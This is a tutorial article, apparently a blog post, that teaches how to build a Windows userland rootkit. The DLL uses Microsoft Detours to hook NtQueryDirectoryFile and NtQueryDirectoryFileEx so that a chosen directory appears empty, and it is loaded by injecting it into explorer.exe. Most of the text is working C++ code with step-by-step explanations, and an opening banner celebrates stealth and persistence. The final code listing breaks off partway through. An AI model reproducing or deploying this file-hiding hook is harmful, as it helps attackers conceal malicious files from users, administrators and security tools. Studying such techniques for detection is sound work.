








Author: @br0sck
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢀⡀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀ ⣿⣿⣿⣿⣶⣤ ⣤⣤⣤⣤⡀ ⣤⣤⣤⣤⡀ ⣿⣿⣿⣿⣿⣿ ⣿⣿ ⣿⣿ ⣿⣿⣿⣿⣿⣿ ⣿⣿⣿⣿⣿⣿
⠀⠀⠀⠀⠀⠀⡀⢄⢮⡳⣶⢭⣖⣢⡤⢀⡀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀ ⣿⣿⣿⣿⣿⣿⡇ ⣿⣿⣿⣿⣿⡇ ⣿⣿⣿⣿⣿⡇ ⣿⣿⣿⣿⣿⣿ ⣿⣿ ⣿⣿ ⣿⣿ ⣿⣿⣿⣿⣿⣿
⠀⠀⢀⢤⣢⣵⣾⣾⣿⣿⣿⣹⣿⣿⣿⣿⣶⣯⣵⣒⡠⢄⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀ ⣿⣿⣶⣶⣿⣿⠇ ⣿⣿⠁⠈⣿⣿ ⣿⣿⠁⠈⣿⣿ ⣿⣿ ⣿⣿⣴⣿⠇ ⣿⣿ ⣿⣿
⠀⠀⢸⣎⣿⣿⣿⣿⣿⡿⠛⠛⠻⣿⣿⣿⣿⣿⣿⡇⣿⣟⣵⣦⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀ ⣿⣿⣿⠿⠛⠁ ⣿⣿ ⣿⣿ ⣿⣿ ⣿⣿ ⣿⣿ ⣿⣿⣿⠏ ⣿⣿ ⣿⣿
⠀⠀⢸⡇⠼⣿⣿⣿⡟⠀⢠⣤⢸⡊⢻⣿⡿⣿⣿⡇⣿⣿⣷⣝⣕⢦⡀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀ ⣿⣿⣷⣤⡀ ⣿⣿ ⣿⣿ ⣿⣿ ⣿⣿ ⣿⣿ ⣿⣿⣿⣷⡄ ⣿⣿ ⣿⣿
⠀⠀⢸⡇⢑⢻⣿⣿⣧⡀⣅⡡⣠⠆⠹⣿⣿⣿⣿⣷⣿⣿⣿⣿⣷⢟⢯⠢⡀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀ ⣿⣿⠉⠻⣷⡄ ⣿⣿⣀⣀⣿⣿ ⣿⣿⣀⣀⣿⣿ ⣿⣿ ⣿⣿ ⠙⣿⣇ ⣿⣿ ⣿⣿
⠀⠀⢸⡇⣸⢉⢿⣯⣿⣿⣶⣧⣤⣰⣾⣿⡟⠽⣋⣈⢿⣿⣿⣿⣿⢸⣷⣝⠮⡢⡀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀ ⣿⣿ ⢹⣿ ⣿⣿⣿⣿⣿⠇ ⣿⣿⣿⣿⣿⠇ ⣿⣿ ⣿⣿ ⠘⣿⣷ ⣿⣿ ⣿⣿
⠀⠀⢸⣷⣿⠠⣞⢿⣿⣿⣿⣿⢟⡫⡗⡢⡑⢭⣗⡺⢷⣙⠿⣿⣿⣼⣿⢿⣷⣍⣎⡢⡀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀ ⣿⣿ ⣿⣿ ⠉⠉⠉⠉ ⠉⠉⠉⠉ ⣿⣿ ⣿⣿ ⠈⣿⣿ ⣿⣿⣿⣿⣿⣿ ⣿⣿
⠀⠀⢸⣿⣿⣼⡏⠗⢝⢿⣿⡈⢥⣿⠞⡜⡼⣾⣛⢿⣛⣻⣷⣰⠹⣻⣿⣿⣿⣿⣿⣮⡪⡢⡀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⣸⣿⣿⣾⡇⠄⠁⠋⣊⢟⠬⡻⣯⡵⣣⡻⣟⡦⢾⣿⣋⣇⢉⣿⣿⣿⣿⣿⣿⣿⣿⣿⡪⡢⡀⠀⠀⠀⠀⠀⠀⠀
⠠⠰⣹⢔⠹⣿⣿⣫⠁⠀⢰⡌⢿⡎⢜⠝⡿⣟⡫⢗⡫⠏⠙⢫⣵⠘⣄⡘⠿⣿⣿⣿⣿⣿⣿⣿⣾⣮⡢⡀⠀⠀⠀⠀ Rootkits aren't malicious, they're just misunderstood.
⠀⠀⠀⠄⡚⠘⢿⣯⡅⠀⢸⠇⠄⠀⠀⠉⠲⠔⡱⡻⢿⣽⣁⠢⢼⣶⣿⣿⣷⣬⡉⡹⠿⣿⣿⣿⣿⣿⣯⡪⡢⡀⠀⠀ They just prefer to stay hidden ¯\_(ツ)_/¯.
⠀⠀⠠⠀⢀⠄⠎⢿⣷⠀⢸⠇⡄⡆⡌⠁⡂⠀⡘⢠⠱⠨⢛⢿⣶⣬⡉⡹⠻⣿⣷⣢⣄⠙⢿⣿⣿⣿⣿⡿⠞⢞⡆⠀⠀
⠀⠀⠀⠀⠈⠈⠒⠊⡻⡇⡄⡒⠤⡀⠁⠃⠁⢠⢀⠁⠀⠀⠂⢉⢊⠝⠿⣶⡤⡘⢿⣿⣷⣝⢦⣙⠿⡛⣉⣼⣾⣿⡇⠀⠀ Persistence is power. Invisibility is absolute power.
⠀⠀⠀⠀⠀⠘⠠⢬⠐⠱⠺⢵⡣⢆⡅⢆⡎⠘⠈⠘⢰⠰⠀⠃⠎⡔⠸⢐⠹⢻⢵⡩⣛⢟⢋⣡⣵⣿⡟⢹⢿⣿⡇⠀⠀
⠀⠀⠀⠀⠀⠀⠂⠄⡈⢀⠀⠑⢉⢓⠾⡥⢨⠐⡠⣀⠂⠆⡄⡄⡀⠐⢀⠀⡌⡖⢌⠪⣤⢾⣿⣿⣿⣏⣍⢰⣿⢿⡇⢤⠀ The first rule of rootkits: you do not talk about rootkits.
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠋⠐⠁⠀⠈⠐⠱⠁⢊⢅⡃⠉⢒⠤⡁⠃⠦⢌⠘⠀⠁⠀⠂⣿⣿⣿⣿⣿⣿⣧⣸⣾⣿⡇⢠⠰
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠂⠄⠄⡀⠂⠅⠌⠕⣰⢈⠒⠵⢢⢎⣐⠀⡃⠄⠀⣿⢷⣿⣿⣿⣟⣯⣷⠿⢻⢱⠂⠈
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠈⠀⠀⠀⠀⠈⠀⢉⢒⠄⡂⡖⡩⢒⠄⠀⣿⡿⣟⣽⣾⡟⡏⠆⠀⠑⠈⠀⠀ To control a system,
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠈⠄⠂⠈⠈⢑⠣⢇⡎⠄⣿⣿⡿⡉⠃⠃⠀⠀⠀⠀⠀⠀⠀ first control what it believes.
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠐⠀⠀⠁⠁⠀⠎⠛⠉⡀⠉⠃⠀⠀⠀⠀⠀⠀⠀⠀⠀
You can't kill what you can't see.
╔════════════════════════[Summary]════════════════════════╗
║ ║
║ 1. Introduction ║
║ 2. What is the Detours Library? ║
║ 2.1 Required Knowledge/Experience ║
║ 2.2 Development Materials ║
║ 3. Creating the Project ║
║ 3.1 Including the Detours Library ║
║ 3.2 Defining the Structure of an NTAPI ║
║ 3.3 Writing the Code ║
║ 3.4 Final Code ║
║ 4. Conclusion ║
║ 5. References ║
║ ║
╚═════════════════════════════════════════════════════════╝
Introduction
In today's digital landscape, where connectivity is increasingly integrated into our daily lives, cybersecurity has become a central concern for both individuals and organizations. Among the threats in this virtual environment, rootkits are a sophisticated type of malware. These malicious programs have the ability to hide deep within a computer's operating system, allowing attackers to gain unauthorized and persistent access to system resources without being detected by users.
This article thoroughly explores the creation of rootkits for the Windows operating system. We will delve into the development of a ring 3 rootkit, also known as a userland rootkit, which operates at the user privilege level within Windows. Although it is less privileged than ring 0 rootkits (kernel mode rootkits), this type can still perform discreet and often imperceptible malicious activities if the attacker develops their code effectively.
The image below shows the layers of an operating system.

Before we get our hands dirty, we need to understand the environment we'll be working in.
What is the Detours Library?
Detours is a software package for monitoring and instrumenting API calls on Windows. Detours has been used by many ISVs and also by Microsoft product teams.
Required Knowledge/Experience
• Programming language: C/C++.
• Windows NT Application Programming Interface (NTAPI).
• Dynamic Link Library (DLL).
• Experience with NTAPIs and Windows APIs.
• Understanding what rootkits are and how they operate.
Development Materials
• Operating System: Windows 10.
• Software: Microsoft Visual Studio 2022, Process Hacker.
• Library: Detours (https://github.com/microsoft/detours).
• Tools, Compilers: MSVC v143 build tools, C++ Build Insights.
Creating the Project
Open Visual Studio 2022 and create a new project using the "Dynamic-Link Library (DLL)" template, then click "Next". Give your project a name and click "Create".

Including the Detours Library
Before including the Detours library, you need to compile it. You can find the library's source code on Microsoft's official GitHub repository.
After compiling the library, you can include it in your project. Below is a link to a video tutorial on how to import ".lib" files.
Link: https://www.youtube.com/watch?v=j13iYc6zRuk
It's important to move the "detours.h" and "detver.h" files to your project directory, the same directory that contains the main file "dllmain.cpp". Afterwards, include them in your project using the "Solution Explorer" in Visual Studio 2022.

Defining the Structure of an NTAPI
Before writing our first lines of code, we need to define which NTAPI will be intercepted and what our objective will be when exploiting it. In this example, the NTAPIs we will use are "NtQueryDirectoryFile" and "NtQueryDirectoryFileEx". Our goal is to abuse this API to hide files from a directory. We can find its documentation on Microsoft's official website.
NtQueryDirectoryFile Syntax:
__kernel_entry NTSYSCALLAPI NTSTATUS NtQueryDirectoryFile(
[in] HANDLE FileHandle,
[in, optional] HANDLE Event,
[in, optional] PIO_APC_ROUTINE ApcRoutine,
[in, optional] PVOID ApcContext,
[out] PIO_STATUS_BLOCK IoStatusBlock,
[out] PVOID FileInformation,
[in] ULONG Length,
[in] FILE_INFORMATION_CLASS FileInformationClass,
[in] BOOLEAN ReturnSingleEntry,
[in, optional] PUNICODE_STRING FileName,
[in] BOOLEAN RestartScan
);
NtQueryDirectoryFileEx Syntax:
__kernel_entry NTSYSCALLAPI NTSTATUS NtQueryDirectoryFileEx(
[in] HANDLE FileHandle,
[in, optional] HANDLE Event,
[in, optional] PIO_APC_ROUTINE ApcRoutine,
[in, optional] PVOID ApcContext,
[out] PIO_STATUS_BLOCK IoStatusBlock,
[out] PVOID FileInformation,
[in] ULONG Length,
FILE_INFORMATION_CLASS FileInformationClass,
[in] ULONG QueryFlags,
[in, optional] PUNICODE_STRING FileName
);
Let's include them in our "dllmain.cpp" file:
#include "pch.h"
#include <Windows.h>
#include <winternl.h>
#include "detours.h"
typedef NTSTATUS(NTAPI* typedefNtQueryDirectoryFile)(
HANDLE FileHandle,
HANDLE Event,
PIO_APC_ROUTINE ApcRoutine,
PVOID ApcContext,
PIO_STATUS_BLOCK IoStatusBlock,
PVOID FileInformation,
ULONG Length,
FILE_INFORMATION_CLASS FileInformationClass,
BOOLEAN ReturnSingleEntry,
PUNICODE_STRING FileName,
BOOLEAN RestartScan
);
typedef NTSTATUS(NTAPI* typedefNtQueryDirectoryFileEx)(
HANDLE FileHandle,
HANDLE Event,
PIO_APC_ROUTINE ApcRoutine,
PVOID ApcContext,
PIO_STATUS_BLOCK IoStatusBlock,
PVOID FileInformation,
ULONG Length,
FILE_INFORMATION_CLASS FileInformationClass,
ULONG QueryFlags,
PUNICODE_STRING FileName
);
We also need to create two static variables for the two NTAPIs, where we will store their addresses in the next function we're going to implement.
static typedefNtQueryDirectoryFile originalNtQueryDirectoryFile;
static typedefNtQueryDirectoryFileEx originalNtQueryDirectoryFileEx;
Now let's start creating the function responsible for initializing the hooking on the NTAPIs. Write the following lines of code:
BOOL StartHook() {
HMODULE ntdllHandle = GetModuleHandleA("ntdll.dll");
originalNtQueryDirectoryFile = (typedefNtQueryDirectoryFile)GetProcAddress(ntdllHandle, "NtQueryDirectoryFile");
originalNtQueryDirectoryFileEx = (typedefNtQueryDirectoryFileEx)GetProcAddress(ntdllHandle, "NtQueryDirectoryFileEx");
return 0;
}
• HMODULE ntdllHandle = GetModuleHandleA("ntdll.dll");: This line is responsible for obtaining the handle of the "ntdll.dll" module.
• originalNtQueryDirectoryFile = (typedefNtQueryDirectoryFile)GetProcAddress(ntdllHandle, "NtQueryDirectoryFile");: This line stores the address of the "NtQueryDirectoryFile" function in the variable we defined earlier called "originalNtQueryDirectoryFile". The same happens in the next line.
Before we continue, we need to understand a few functions from the Detours library:
• DetourRestoreAfterWith: This function is used to specify whether the changes made by DetourTransactionCommit should be preserved or reverted.
• DetourTransactionBegin: Starts a new Detours transaction. A Detours transaction is a sequence of detours that are applied or rolled back together.
• DetourUpdateThread: Updates detours on all threads of a process to reflect the changes made during a Detours transaction.
• DetourAttach: Attaches a detour to a function, redirecting execution to a custom function before the original one.
• DetourDetach: Removes a previously attached detour, restoring the original function.
• DetourTransactionCommit: Finalizes a Detours transaction, applying or reverting the changes made to the target functions.
Writing the Code
After this explanation, let's continue writing the lines of code for the "StartHook" function.
BOOL StartHook() {
HMODULE ntdllHandle = GetModuleHandleA("ntdll.dll");
originalNtQueryDirectoryFile = (typedefNtQueryDirectoryFile)GetProcAddress(ntdllHandle, "NtQueryDirectoryFile");
originalNtQueryDirectoryFileEx = (typedefNtQueryDirectoryFileEx)GetProcAddress(ntdllHandle, "NtQueryDirectoryFileEx");
DetourRestoreAfterWith();
DetourTransactionBegin();
DetourUpdateThread(GetCurrentThread());
DetourAttach(&(PVOID&)originalNtQueryDirectoryFile, HookedNtQueryDirectoryFile);
DetourAttach(&(PVOID&)originalNtQueryDirectoryFileEx, HookedNtQueryDirectoryFileEx);
DetourTransactionCommit();
return 0;
}
static NTSTATUS NTAPI HookedNtQueryDirectoryFile(...) {...}
static NTSTATUS NTAPI HookedNtQueryDirectoryFileEx(...) {...}
• DetourUpdateThread(GetCurrentThread());: This will update the detours across all threads in the process.
• DetourAttach(&(PVOID&)originalNtQueryDirectoryFile, HookedNtQueryDirectoryFile);: This intercepts the original NTAPI and redirects it to our custom function "HookedNtQueryDirectoryFile". The same occurs in the next line.
Now we've reached the most interesting part, where we will start recreating the intercepted NTAPIs. Let's write the following lines:
static NTSTATUS NTAPI HookedNtQueryDirectoryFile(HANDLE FileHandle, HANDLE Event, PIO_APC_ROUTINE ApcRoutine, LPVOID ApcContext, PIO_STATUS_BLOCK IoStatusBlock, LPVOID FileInformation, ULONG Length, FILE_INFORMATION_CLASS FileInformationClass, BOOLEAN ReturnSingleEntry, PUNICODE_STRING FileName, BOOLEAN RestartScan) {
NTSTATUS status = STATUS_NO_MORE_FILES;
WCHAR dirPath[MAX_PATH + 1] = { NULL };
}
• NTSTATUS status = STATUS_NO_MORE_FILES;: The variable "status" stores the value "0x80000006", which is a type of status code used to identify whether there are more files to be listed in a directory. Define a macro in your code by writing #define STATUS_NO_MORE_FILES 0x80000006. You can find references for all status codes in the NTSTATUS values documentation.
• WCHAR dirPath[MAX_PATH + 1] = { NULL };: This variable will be initialized with null and is responsible for storing the accessed path after the hook is triggered.
[...]
if (GetFinalPathNameByHandleW(FileHandle, dirPath, MAX_PATH, FILE_NAME_NORMALIZED)) {
if (StrStrIW(dirPath, L"C:\\Windows\\Temp\\nothing_here"))
RtlZeroMemory(FileInformation, Length);
else
status = originalNtQueryDirectoryFile(FileHandle, Event, ApcRoutine, ApcContext, IoStatusBlock, FileInformation, Length, FileInformationClass, ReturnSingleEntry, FileName, RestartScan);
}
return status;
• GetFinalPathNameByHandleW(FileHandle, dirPath, MAX_PATH, FILE_NAME_NORMALIZED): This function retrieves the full path accessed through its HANDLE FileHandle, which is a native parameter of the NTAPI functions "NtQueryDirectoryFile" and "NtQueryDirectoryFileEx".
• if (StrStrIW(dirPath, L"C:\\Windows\\Temp\\nothing_here")): Performs a comparison to check whether the accessed path is "C:\\Windows\\Temp\\nothing_here".
• * If it is: It will clear the entire content of the "FileInformation" variable using the "RtlZeroMemory" function.
• * If it is not: All arguments passed to the "HookedNtQueryDirectoryFileEx" function will be forwarded to the "originalNtQueryDirectoryFileEx" and a new NTSTATUS value will be stored in the "status" variable. This is the only line where the NTSTATUS status variable will be overwritten with a different value. By setting it to "STATUS_NO_MORE_FILES", you are essentially saying “This folder is empty.” — the classic Windows message.
The same logic is applied in the "HookedNtQueryDirectoryFileEx" function:
static NTSTATUS NTAPI HookedNtQueryDirectoryFileEx(HANDLE FileHandle, HANDLE Event, PIO_APC_ROUTINE ApcRoutine, PVOID ApcContext, PIO_STATUS_BLOCK IoStatusBlock, PVOID FileInformation, ULONG Length, FILE_INFORMATION_CLASS FileInformationClass, ULONG QueryFlags, PUNICODE_STRING FileName) {
NTSTATUS status = STATUS_NO_MORE_FILES;
WCHAR dirPath[MAX_PATH + 1] = { NULL };
if (GetFinalPathNameByHandleW(FileHandle, dirPath, MAX_PATH, FILE_NAME_NORMALIZED)) {
if (StrStrIW(dirPath, L"C:\\Windows\\Temp\\nothing_here"))
RtlZeroMemory(FileInformation, Length);
else
status = originalNtQueryDirectoryFileEx(FileHandle, Event, ApcRoutine, ApcContext, IoStatusBlock, FileInformation, Length, FileInformationClass, QueryFlags, FileName);
}
return status;
}
Later, we need to create the function to revert the hooks made:
BOOL StopHook() {
DetourTransactionBegin();
DetourUpdateThread(GetCurrentThread());
DetourDetach(&(PVOID&)originalNtQueryDirectoryFile, HookedNtQueryDirectoryFile);
DetourDetach(&(PVOID&)originalNtQueryDirectoryFileEx, HookedNtQueryDirectoryFileEx);
DetourTransactionCommit();
return 0;
}
Explaining the main part of these lines of code:
• DetourDetach(&(PVOID&)originalNtQueryDirectoryFile, HookedNtQueryDirectoryFile);: This is responsible for detaching the hook, passing the address of the original "NtQueryDirectoryFile" NTAPI as the first argument (cast to a void pointer), and the address of the "HookedNtQueryDirectoryFile" function as the second argument. The same applies to the line below.
We're almost done — now we just need to adjust the "DllMain" function to call the functions we've created:
BOOL APIENTRY DllMain( HMODULE hModule, DWORD ul_reason_for_call, LPVOID lpReserved)
{
switch (ul_reason_for_call) {
case DLL_PROCESS_ATTACH:
StartHook();
break;
case DLL_THREAD_ATTACH:
break;
case DLL_THREAD_DETACH:
break;
case DLL_PROCESS_DETACH:
StopHook();
break;
}
return TRUE;
}
Compile your code and validate if everything is working correctly by following these steps:
1 – Create the directory "C:\Windows\Temp\nothing_here" and add any file to it.

2 – Open the Process Hacker tool and search for "explorer.exe". Right-click on the process and go to "Miscellaneous > Inject DLL".

3 – Select your compiled DLL.

4 – Go to the directory "C:\Windows\Temp\nothing_here", right-click inside the folder, and click on "Refresh".

All files stored in this directory will not be shown to the user.

Final Code
// dllmain.cpp
#include "pch.h"
#include <Windows.h>
#include <winternl.h>
#include <stdio.h>
#include <shlwapi.h>
#include "detours.h"
#pragma comment(lib, "shlwapi.lib")
#define STATUS_NO_MORE_FILES 0x80000006
typedef NTSTATUS(NTAPI* typedefNtQueryDirectoryFile)(
HANDLE FileHandle,
HANDLE Event,
PIO_APC_ROUTINE ApcRoutine,
PVOID ApcContext,
PIO_STATUS_BLOCK IoStatusBlock,
PVOID FileInformation,
ULONG Length,
FILE_INFORMATION_CLASS FileInformationClass,
BOOLEAN ReturnSingleEntry,
PUNICODE_STRING FileName,
BOOLEAN RestartScan
);
typedef NTSTATUS(NTAPI* typedefNtQueryDirectoryFileEx)(
HANDLE FileHandle,
HANDLE Event,
PIO_APC_ROUTINE ApcRoutine,
PVOID ApcContext,
PIO_STATUS_BLOCK IoStatusBlock,
PVOID FileInformation,
ULONG Length,
FILE_INFORMATION_CLASS FileInformationClass,
ULONG QueryFlags,
PUNICODE_STRING FileName
);
static typedefNtQueryDirectoryFile originalNtQueryDirectoryFile;
static typedefNtQueryDirectoryFileEx originalNtQueryDirectoryFileEx;
static NTSTATUS NTAPI HookedNtQueryDirectoryFile(HANDLE FileHandle, HANDLE Event, PIO_APC_ROUTINE ApcRoutine, LPVOID ApcContext, PIO_STATUS_BLOCK IoStatusBlock, LPVOID FileInformation, ULONG Length, FILE_INFORMATION_CLASS FileInformationClass, BOOLEAN ReturnSingleEntry, PUNICODE_STRING FileName, BOOLEAN RestartScan) {
NTSTATUS status = STATUS_NO_MORE_FILES;
WCHAR dirPath[MAX_PATH + 1] = { NULL };
if (GetFinalPathNameByHandleW(FileHandle, dirPath, MAX_PATH, FILE_NAME_NORMALIZED)) {
if (StrStrIW(dirPath, L"C:\\Windows\\Temp\\nothing_here"))
RtlZeroMemory(FileInformation, Length);
else
status = originalNtQueryDirectoryFile(FileHandle, Event, ApcRoutine, ApcContext, IoStatusBlock, FileInformation, Length, FileInformationClass, ReturnSingleEntry, FileName, RestartScan);
}
return status;
}
static NTSTATUS NTAPI HookedNtQueryDirectoryFileEx(HANDLE FileHandle, HANDLE Event, PIO_APC_ROUTINE ApcRoutine, PVOID ApcContext, PIO_STATUS_BLOCK IoStatusBlock, PVOID FileInformation, ULONG Length, FILE_INFORMATION_CLASS FileInformationClass, ULONG QueryFlags, PUNICODE_STRING FileName) {
NTSTATUS status = STATUS_NO_MORE_FILES;
WCHAR dirPath[MAX_PATH + 1] = { NULL };
if (GetFinalPathNameByHandleW(FileHandle, dirPath, MAX_PATH, FILE_NAME_NORMALIZED)) {
if (StrStrIW(dirPath, L"C:\\Windows\\Temp\\nothing_here"))
RtlZeroMemory(FileInformation, Length);
else
status = originalNtQueryDirectoryFileEx(FileHandle, Event, ApcRoutine, ApcContext, IoStatusBlock, FileInformation, Length, FileInformationClass, QueryFlags, FileName);
}
return status;
}
BOOL StartHook() {
HMODULE ntdllHandle = GetModuleHandleA("ntdll.dll");
originalNtQueryDirectoryFile = (typedefNtQueryDirectoryFile)GetProcAddress(ntdllHandle, "NtQueryDirectoryFile");
originalNtQueryDirectoryFileEx = (typedefNtQueryDirectoryFileEx)GetProcAddress(ntdllHandle, "NtQueryDirectoryFileEx");
DetourRestoreAfterWith();
DetourTransactionBegin();
DetourUpdateThread(GetCurrentThread());
